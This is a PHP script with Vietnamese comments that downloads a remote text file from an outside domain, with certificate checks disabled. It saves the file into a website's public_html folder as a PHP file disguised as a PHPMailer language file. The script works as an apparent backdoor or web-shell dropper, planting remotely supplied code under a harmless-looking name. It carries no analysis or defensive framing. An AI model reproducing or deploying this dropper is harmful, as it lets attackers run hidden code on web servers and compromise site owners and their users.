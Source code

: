 // URL của file cần tải
$url = "https://dogebreedlist.info/app/report.txt";

// Đường dẫn lưu file
$savePath = "/home/newzealandtd/public_html/PHPMailer/language/phpmailer.lang-vn.php";

// Khởi tạo cURL session
$ch = curl_init($url);

// Mở file để ghi
$file = fopen($savePath, "w");

if ($file === false) {
    die("Không thể mở file để ghi.");
}

// Cấu hình cURL để ghi dữ liệu trực tiếp vào file
curl_setopt($ch, CURLOPT_FILE, $file);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);

// Thực hiện tải file
$result = curl_exec($ch);

// Kiểm tra lỗi
if ($result === false) {
    echo "Lỗi cURL: " . curl_error($ch);
} else {
    echo "Tải file thành công!";
}

// Đóng cURL và file
curl_close($ch);
fclose($file);
?>
